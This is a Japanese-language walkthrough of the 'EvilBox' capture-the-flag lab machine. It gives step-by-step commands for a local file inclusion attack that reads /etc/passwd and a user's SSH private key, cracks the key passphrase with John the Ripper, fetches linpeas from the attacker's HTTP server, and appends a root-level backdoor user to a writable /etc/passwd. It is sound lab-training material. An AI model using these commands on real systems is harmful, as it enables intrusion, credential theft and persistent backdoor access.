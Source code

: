 ## EvilBox(tryHackMe2と似ている) 653~

## 目的
- ユーザフラグ
- ルートフラグ
- 合計２つ
### ポートスキャンまでは同じ
- 22, 80

### Webサイトを見る
- サイトを見ても単なるApacheのサイト

### 隠しファイルを探す
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - $IPでもOK
  - `-x html,txt,php`がなければディレクトリしか表示されない
  - 本の解説には`-x`オプションが付いているが、ここではディレクトリを探しているだけなので、なぜついているのかわからない
  - secretという怪しいディレクトリがある
- ブラウザで`/secret`ディレクトリを見ても真っ白なので、さらに隠しファイルを探してみる
- `gobuster dir -u $URL/secret/ -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - 上の`$URL`は`"http://$IP/secret/"`でもいい。`-x`がなくても、実行できるので注意
  - `evil.php`という怪しいファイルがある
  
### サイトをチェックする
- `evil.php`は明らかに怪しい名前のファイルなので、もしかしたら他の侵入者が設置したかもしれないので見てみるが、何も表示されない

### ローカルファイルインクルード攻撃ができないかチェック
- evil.phpに以下のコードができれば、リンクからコマンドを入力できる。　['page']の部分に正しい単語を見つけてこれば使える。ただし、このコードは今は見れないので注意。
```php
<?php
  $page= $_GET['page'];
  if ($page)
      include $page;
?>
```
- 使えるかどうかわからないので、wfuzzを使ってチェックする
### WFuzz
- ディレクトリトラバーサル攻撃のためwfuzzでファジングする
  - ディレクトリトラバーサル攻撃とは、ユーザが指定するファイル名の検証が不充分であるため、結果として親ディレクトリへのアクセスすることを許してしまう脆弱性を指す
  - ファジングとは、通常想定されていないデータをシステムに与えて、潜在的な脆弱性を検出するテスト手法 
- `wfuzz -u "$URL/secret/evil.php?FUZZ=../../../../etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 0`
  - FUZZの部分が順に指定した辞書の単語に入れ替わる
  - ここでは`command`が当てはまったのでローカルファイルインクルード攻撃ができる
### (参考)PHPのコードを見る
- PHP:filter(PHPストリームラッパー)でコードを見る。これはブラウザがhtmlを読み込む前に、コードを変換させることで、コードをそのまま表示させてしまうこと。
- コピーしてくる `PD9waHAKICAgICRmaWxlbmFtZSA9ICRfR0VUWydjb21tYW5kJ107CiAgICBpbmNsdWRlKCRmaWxlbmFtZSk7Cj8+Cg==`
- `echo ペースト | base64 -d`
- コードが表示される。このphpに脆弱性があることがわかる


### /etc/passwdをみる
- ウェブサイトから
- `view-source:http://192.168.56.110/secret/evil.php?command=/etc/passwd`
- `/etc/shadow`は見ることができない
- ユーザのroot,mowreeが/bin/bashが使えるのがわかる
### 暗号鍵を取得する
- mowreeの暗号鍵を取得する
- `view-source:http://192.168.56.110/secret/evil.php?command=/home/mowree/.ssh/id_rsa`
  - ターゲットサーバの中のフォルダをブラウザから見る
  - 暗号鍵はコピー、コマンド`cat > id_rsa`でペーストしてファイルを作っておく
- `chmod 700 id_rsa`
  
### sshするが失敗する
- パスフレーズが設定されていて失敗する
### 形式を変える
- sedコマンドはPython2系のコマンドをPython3系に書き換えている特殊なもの
- john the ripperで使えるようにフォーマットを変える、うまく変換できるかまず確認してみる
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa`
- pass_hash.txtを作る
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa > pass_hash.txt` 
### パスフレーズを解読
- `john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt`
- もしエラーになったら、ファイルが間違っているか、過去に一度解いているため以下のコマンドで過去のパスワードがわかる
  - `john --show 過去に使った暗号ファイル`
### ssh
- `ssh mowree@$IP -i id_rsa`
  - -i:暗号鍵のファイルを指定するオプション

### Linpeasを使う
- Linpeasはルート権限昇格の手がかりを一覧にしてくれるコマンド

### Linpeasを転送する。２通りあるが、いづれの方法でもいい。
- (1)Pythonのサーバを使う
  - ParrotOS側のLinpeasを置いてあるフォルダで`sudo python3 -m http.server 8080`を入力する
  - ターゲットサーバ側で`wget http://192.168.56.102:8080/linpeas.sh`と入力する。注意するのはIPアドレスがParrotOS側であること
  
- (2)scpコマンドを使ってLinpeasを転送する
  - id_rsa,linpeas.shは同じディレクトリにおいて移動する
  - `scp -i id_rsa linpeas.sh mowree@$IP:/tmp`
  - パスワードを聞かれる 
- ファイルが使えるようにする `chmod +x linpeas.sh`
- `./linpeas.sh`
- Linpeasを使うと`/etc/passwd`がwritableになっていて書き換えれることがわかる
```
===Permission in init, init.d systemd, and rc,d

= Hashes inside passwd file? .... No
= Writable passwd file? ......... /etc/passwd is writable
= Credentials in fstab/mtab? .... No
= ~~~~~
```
- `./linpeas.sh > output.txt`
- `cat output.txt`  
### バックドアを仕込む
- passwdファイルに自分のユーザ(root権限を持つ)を書き込んで、いつでも出入りできるようにする
- パスワードを作成する
  - `openssl passwd -1 -salt usersalt`
  - 自分で適当にpasswordを入れる、ここでは`pass`としておく
  - パスワードをコピーしておく
- /etc/passwdに書き込む
  - `>>`は追記なので注意 
  - `echo 'eviluser:ペースト:0:0:root:/root:/bin/bash' >> /etc/passwd`
### フラグの取得
- ユーザを切り替える
  - `su eviluser`
  - パスワードの入力
- `cat /root/root.txt` 
## 初めからする時に削除するもの
- mowreeのhome、user.txt以外は削除
- ParrotユーザのEvilBoxフォルダの中身も削除
- passwdの最終行も削除
  - `sed -e '$d' /etc/passwd`
  - `sed -i -e '$d' /etc/passwd`
